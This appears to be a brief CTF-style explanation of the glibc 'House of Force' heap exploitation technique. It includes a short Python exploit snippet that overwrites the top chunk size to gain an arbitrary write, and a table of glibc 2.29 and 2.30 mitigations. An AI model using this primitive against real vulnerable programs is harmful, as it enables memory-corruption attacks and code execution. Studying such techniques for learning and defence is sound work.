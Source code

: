  
## Implementation

Simple arbitrary write primitive that works if we can overwrite the top chunk size.
We overwrite it to the biggest value possible, then we malloc right before our target write address, and finally malloc our target write address to write data to it.

```python
def delta(start, end): # if we have to wraparound
    return (0xffffffffffffffff - start) + end
    
malloc(24, b"Y"*24 + p64(0xffffffffffffffff))
distance = delta(heap + 0x20, elf.sym.target - 0x20)
malloc(distance, b"Y")
malloc(24, "winwin")
```

## Mitigation

|GLIBC VERSION|PATCHES|
|---|---|
|2.29|glibc ensures that the top chunk size does not exceed its arena’s system_mem value.|
|2.30|Wrap around to VA space, glibc introduced a maximum allocation size check, which limits the size of the gap the House of Force can bridge.|